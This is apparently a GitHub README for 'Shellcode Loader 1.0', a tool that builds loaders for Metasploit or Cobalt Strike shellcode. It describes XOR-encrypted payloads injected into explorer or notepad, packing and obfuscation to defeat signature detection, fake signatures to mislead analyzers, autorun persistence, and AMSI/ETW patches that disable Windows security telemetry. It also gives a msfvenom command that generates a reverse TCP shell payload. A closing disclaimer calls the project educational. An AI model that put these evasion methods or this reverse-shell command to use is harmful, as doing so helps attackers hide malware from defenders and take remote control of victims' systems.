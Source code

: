 # ⚔️ <b>Shellcode Loader 1.0</b>
>![Banner](banner.png)

```diff
- to compile this project required and dnlib package
```

# 📕 About 
> <b>This is a simple implementation of my automated shellcode-loader builder when we do not have an executable file or we need to take the shellcode directly from the file and implement a program that needs to be loaded onto the end station, I automated this a little with support for shellcode encryption, its bytes are taken and encrypted using xor and when launched, they are decrypted in memory in one of these processes "explorer" or "notepad", so far there are only 2 processes to choose from, in the future I will slightly correct this option. The builder also has support for a packer to compress the main loader and hide static signatures, and there is also an obfuscator functionality containing various loader mutation algorithms, these are simple algorithms designed for simple obfuscation, there is also support for fake signatures for the DIE static analyzer. The actual shellcode bytes are taken and parsed directly from the file, their pattern is { 0x... <PAYLOAD BYTES> }. Then the standard process: encryption, transfer to the loader stub and compilation.</b>

# 💉 Support shellcode:
    1) Metasploit shellcode (csharp)
    2) Cobalt Strike shellcode (csharp)

 ```shell
 msfvenom -p windows/shell_reverse_tcp LHOST=<iface> LPORT=<port> -f csharp > shell.txt # metaslpoit

 # Cobalt Strike
 Payloads -> Stager Payload Generator
 Output -> C#
 Use x64 payload -> set true
 ```
<br>

# ⚙️ Features
- 🖥️ **Compress**: Simple implementation of compression and hiding of static signatures of the main loader.
- ⚔️ **Shellcode Encryption**: Shellcode Byte Encryption and Decryption and their Implementation in Memory.
- 🚀 **Autorun**: Autostart application after OS restart.
- ⚙️ **Conditional Compilation**: Allows the builder to include only the features and options chosen by the user, making the final build more streamlined.
- 🔒 **Custom Renaming and Obfuscation**: Includes customizable renaming of functions and string encryption to make the code less readable and harder to analyze.
- 🎃 **Amsi/Etw patches**: Support for "EtwEventTrace" patches and "AmsiScanBuffer" functions.
<br>

# 📽️ Showcase:


## 📸 **Screens**: 
> ![1](1.png)
> ![2](2.png)
> ![3](3.png)
<br>

## ⚠️ **Disclaimer**: 
```
This project is for educational purposes only, intended for studying malware and security techniques. The author is not responsible for any malicious use of this software.
```
<br>

# ⭐ Credits 

- **Author**: <a href="https://github.com/k3rnel-dev">@K3rnel-Dev</a>
- **dnlib**: A library for manipulating .NET assemblies.  
  GitHub: [https://github.com/0xd4d/dnlib](https://github.com/0xd4d/dnlib)
---
